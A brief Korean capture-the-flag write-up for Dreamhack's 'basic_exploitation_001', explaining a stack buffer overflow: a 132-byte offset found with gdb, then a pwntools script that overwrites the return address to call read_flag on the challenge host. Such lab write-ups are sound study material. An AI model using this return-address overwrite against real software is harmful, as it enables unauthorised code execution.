


# basic_exploitation_001
```
void read_flag() {
    system("cat /flag");
}
```   
주어진 소스코드를 보면 read_flag 함수에서 flag를 얻을 수 있다.
<br/>

   
gdb로 확인해보면 read_flag 함수는 x080485b9에 위치하고 있다.   <br/><br/>


   
main 함수를 보면 버퍼는 0x80바이트 이다.   
<br/>

따라서 0x80(128) + sfp(4) 즉, 132바이트를 아무 문자로 채우고 read_flag 함수 주소로 ret address를 채우면 된다.

```
from pwn import *

r = remote('host1.dreamhack.games', 17724)

payload = ""
payload += "\x90"*132
payload += p32(0x80485b9)

r.sendline(payload)
r.interactive()
```
